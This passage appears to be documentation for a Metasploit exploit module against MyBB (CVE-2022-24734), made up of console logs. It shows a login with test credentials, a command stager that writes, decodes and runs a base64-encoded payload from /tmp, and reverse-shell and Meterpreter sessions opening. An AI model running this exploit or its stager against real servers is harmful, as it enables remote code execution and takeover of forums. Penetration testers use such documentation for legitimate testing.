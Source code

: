 ```
[*] Command shell session 3 opened (192.168.0.48:4444 -> 192.168.0.48:50151) at 2022-05-23 15:42:58 +0200


ls
backups
inc
index.php
jscripts
modules
styles
^C
Abort session 3? [y/N]  y
```

### Linux (target 2 - linux (Dropper))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgBE2gCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/UAznK.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/jHFeb' < '/tmp/UAznK.b64' ; chmod +x '/tmp/jHFeb' ; '/tmp/jHFeb' ; rm -f '/tmp/jHFeb' ; rm -f '/tmp/UAznK.b64'"]
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (989032 bytes) to 192.168.0.48
[*] Meterpreter session 4 opened (192.168.0.48:4444 -> 192.168.0.48:50213) at 2022-05-23 15:43:26 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : 172.18.0.4
OS           :  (Linux 5.10.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

